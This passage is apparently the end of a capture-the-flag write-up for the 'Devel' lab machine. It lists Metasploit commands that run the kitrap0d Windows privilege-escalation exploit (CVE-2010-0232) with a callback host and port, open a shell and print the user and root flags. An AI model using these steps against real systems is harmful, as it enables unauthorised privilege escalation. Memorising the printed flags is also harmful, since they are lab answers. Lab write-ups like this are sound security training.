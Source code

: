 ```txt
[*] Post module execution completed
```

If you did that correctly you should see a list of expoits we can use. I had to google to see which one of these would be best. 

The first one bypassuac_eventvwr is failed if used. The recommendation was to use the kitrap0d, the second on the list.

https://www.rapid7.com/db/modules/exploit/windows/local/ms10_015_kitrap0d/
https://nvd.nist.gov/vuln/detail/CVE-2010-0232

```bash
use exploit/windows/local/ms10_015_kitrap0d
show options
set session 2
set LHOST 10.10.14.12
set LPORT 1234
run
```

![[Devel-15.png]]

# Get the flag
```bash
shell
whoami
```
![[Devel-16.png]]
```bash
# get user flag
cd c:\Users\babis\Desktop
type user.txt
69870d6dcfb42ad84fc4edcd49aaa9c7
```
![[Devel-18.png]]

```bash
# get root flag
cd c:\Users\Administrator\Desktop
type root.txt
9124791377166e1954c58b5bf6686784
```
![[Devel-19.png]]



